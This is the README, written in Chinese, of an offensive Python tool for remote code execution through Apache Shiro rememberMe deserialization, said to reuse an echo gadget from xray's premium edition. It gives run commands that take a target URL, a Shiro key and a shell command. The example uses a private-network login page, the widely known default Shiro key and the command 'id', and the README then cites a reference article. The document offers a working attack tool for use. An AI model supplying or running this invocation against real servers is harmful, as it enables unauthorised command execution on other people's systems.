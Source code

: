 # shiro_rememberMe_Rce

## 描述

利用长亭xray高级版的回显Gadget重写的一个shiro反序列化利用工具。

## 用法

建议先用其他工具找到可以利用的shiro密码，然后使用此工具进行利用。

```
python shiro_rememberMe_Rce.py targetUrl shiroKey command
python shiro_rememberMe_rce.py http://192.168.0.106:8080/login kPH+bIxk5D2deZiIxcaaaA== id
```

![](assets/markdown-img-paste-20200725205353408.png)

![](assets/markdown-img-paste-20200725205414673.png)

## 参考

参考文章[shiro新姿势：初探xray高级版shiro插件](https://www.anquanke.com/post/id/211228)
